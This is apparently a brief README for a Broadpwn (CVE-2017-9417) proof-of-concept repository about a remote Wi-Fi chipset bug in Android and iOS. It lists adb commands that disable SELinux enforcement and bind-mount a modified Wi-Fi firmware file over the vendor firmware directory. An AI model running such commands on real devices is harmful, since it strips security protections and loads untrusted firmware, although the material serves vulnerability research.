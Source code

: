 # Broadpwn
Broadpwn bug (CVE-2017-9417)

Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

  $ adb shell
  setenforce 0
  cp fw_bcmdhd.bin /data/local/tmp/firmware/
  chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
  mount -o bind /data/local/tmp/firmware /vendor/firmware
  stop
  start
